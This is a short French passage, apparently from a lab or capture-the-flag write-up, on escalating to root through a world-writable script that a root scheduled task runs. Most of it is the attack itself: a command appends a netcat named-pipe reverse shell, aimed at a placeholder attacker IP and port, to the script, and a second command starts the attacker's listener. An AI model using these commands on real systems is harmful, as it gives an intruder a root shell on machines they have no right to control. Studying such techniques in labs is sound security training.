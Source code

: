 Un script est lancé par une tâche planifiée depuis l'utilisateur root. Ce script a des droits beaucoup trop élevés (chmod 777).
Il nous suffit de s'appuyer sur netcat pour créer un reverse shell qui aura les droits de ce super-utilisateur. 

# coté victime, on crée le reverse shell (remplacer les XXX par l'IP attaquante et les YYYY par un numéro de port au choix)
echo 'rm -rf /tmp/p; mknod /tmp/p p; /bin/bash 0</tmp/p | nc 192.168.XXX.XXX YYYY >/tmp/p' >> /tab/script.sh

# coté attaquant, on a plus qu'a mettre un port en écoute et attendre (où YYYY est le même port que celui choisi précédemment)
nc -lvp YYYY
